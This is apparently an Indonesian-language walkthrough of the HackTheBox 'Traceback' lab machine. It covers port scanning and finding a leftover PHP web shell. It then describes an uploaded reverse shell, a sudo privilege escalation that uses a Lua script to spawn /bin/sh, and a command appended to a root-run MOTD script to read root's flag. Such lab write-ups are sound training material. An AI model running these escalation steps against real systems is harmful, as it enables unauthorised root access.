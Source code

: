 # Traceback (Linux)

![Image](img/1.png)

HackTheBox Traceback dengan operating system Linux

### Enumeration

Mari kita mulai enumeration open port dengan menggunakan nmap

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp    filtered http
```

Sekilas kita melihat ada port 22 (TCP) yang open dan juga ada port 80 (HTTP) namun filtered.

Walaupun tulisannya filtered namun ternyata kita masih bisa akses websitenya tanpa masalah

![Image](img/2.png)

Ditemukan github Xh4H yang berhubungan dengan webshell

[https://github.com/Xh4H/Web-Shells](https://github.com/Xh4H/Web-Shells)

![Image](img/5.PNG)

Dari repository webshell yang penulis temukan tadi, penulis kemudian mencoba untuk membuka 1 per 1 nama webshell nya.

Ternyata benar, ditemukan file webshell bernama Smevk.php

![Image](img/3.png)

Penulis kemudian melakukan file upload sebuah file reverse shell php dari pentest monkey sebagai andalannya. Kenapa tidak menggunakan RCE yang sudah ada saja untuk membuka koneksi melewati netcat?

Penulis sudah mencoba menggunakan koneksi dari netcat namun sepertinya koneksi yang stabil tidak bisa didapatkan sehingga penulis mencoba cara lain.

Masuk sebagai web admin, ditemukan note.txt

![Image](img/4.png)

Ditemukan luvit, yang ternyata semacam compiler untuk Bahasa lua

```
https://luvit.io/
```

![Image](img/6.PNG)

Menjalankan sudo -l kita bisa mendapatkan sesuatu yang menarik

```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Dan menurut GTFOBins kita bisa menggunakan script lua tadi untuk menjalankan privilege escalation dari webadmin menjadi sysadmin

![Image](img/7.PNG)

```
Echo “os.execute(“/bin/sh”)” > privesc.lua

sudo -u sysadmin /home/sysadmin/luvit /home/webadmin/privesc.lua
```

Karena kita sudah menjadi sysadmin dan butuh perjuangan dalam mencapai sysadmin ini dari webshell ada baiknya kita memasukkan rsa key kita untuk lebih leluasa melakukan ssh kedalam boxnya.

Penulis sudah mencoba menjalankan LinEnum.sh dan manual enumeration, namun hal yang menarik justru bisa ditemukan saat menajalnakn pspy script

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Pspy adalah tool yang super powerful untuk melihat running processes secara langsung.

Ternyata ada update-motd.d yang di backup setiap 30 detik dijalankan oleh root.

Update-motd.d adalah script yang dijalankan dengan permission root namun bisa diedit oleh sysadmin, kita tinggal memasukkan payload RCE kita kedalam untuk cat root / mendapatkan reverse shell as root

```
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

Kita bisa menambahkan payload RCE di file ini

```
echo “cat /root/root.txt” >> 00-header
```

Kemudian untuk meng-execute payload RCE kita, kita hanya harus login melalui SSH agar header motd ter trigger lagi

# Rooted !